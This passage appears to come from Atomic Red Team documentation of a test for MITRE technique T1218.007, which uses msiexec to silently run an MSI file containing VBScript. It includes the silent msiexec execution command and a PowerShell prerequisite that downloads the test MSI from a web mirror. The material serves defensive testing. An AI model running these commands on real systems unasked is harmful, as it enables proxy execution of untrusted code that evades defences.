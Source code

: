 **Supported Platforms:** Windows


**auto_generated_guid:** 8d73c7b0-c2b1-4ac1-881a-4aa644f76064





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;T1218.007_VBScript.msi|
| msi_exe | MSIExec File Path | path | c:&#92;windows&#92;system32&#92;msiexec.exe|
| action | Specifies the MSI action to perform: i (install), a (admin), j (advertise). The included MSI is designed to support all three action types. | string | i|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{msi_exe} /q /#{action} "#{msi_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: The MSI file must exist on disk at specified location (#{msi_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{msi_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{msi_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_VBScript.msi" -OutFile "#{msi_payload}"
```




<br/>
<br/>

## Atomic Test #3 - Msiexec.exe - Execute Local MSI file with an embedded DLL
Executes an MSI containing an embedded DLL using msiexec.exe

**Supported Platforms:** Windows


**auto_generated_guid:** 628fa796-76c5-44c3-93aa-b9d8214fd568



